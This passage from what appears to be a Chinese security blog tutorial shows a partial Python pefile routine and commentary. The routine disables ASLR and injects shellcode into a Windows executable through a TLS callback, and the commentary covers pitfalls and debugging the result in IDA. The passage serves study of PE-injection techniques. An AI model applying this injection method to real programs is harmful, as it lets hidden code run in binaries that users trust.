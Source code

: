 ```plain
        pe.OPTIONAL_HEADER.DllCharacteristics &= ~IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE
        print("ASLR disabled")
        return pe


def inject_tls(binary, shellcode):
    print(f"[+] Shellcode size: {len(shellcode)} bytes")
    pe = pefile.PE(data=binary)
    if not hasattr(pe, 'DIRECTORY_ENTRY_TLS'):
        print("[+] TLS Directory not present")
        # Add the 32 bytes TLS structure to the shellcode
        shellcode = bytes('\0' * 32, 'utf-8') + shellcode
        pe = section_manage(pe, shellcode)

    # DIRECTORY_ENTRY_TLS present
    else:
        print("[-] The binary does already have the TLS Directory.")
    return pe
```

实际上可以看到代码结构相当清楚，主要是调用 `pefile` 库的 API 来完成操作。大部分的操作都是对 PE 文件结构的修改，实际上和网上的操作大差不差，不过是使用了自动化的手段完成对 PE 文件的修改。新增新节、创建 TLS 结构、写入 shellcode、更新 TLS 结构、禁用 ASLR 等操作实际上都是基础的 PE 文件格式的操作，最踩坑的是 ASLR 的禁用。虽说如此，细节确实值得实际操作一番。

**踩坑点 2：**在完成了上述步骤后，我们会发现报错：

[![](assets/1710900228-b468df93c6932ea1f7e8d8c8c1bec769.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301165253-1751bad4-d7a9-1.png)

排查问题：拖入 IDA 动调。

[![](assets/1710900228-de052f39b1840c6563f0ba28d5f3bfc8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301165257-19a34e7e-d7a9-1.png)
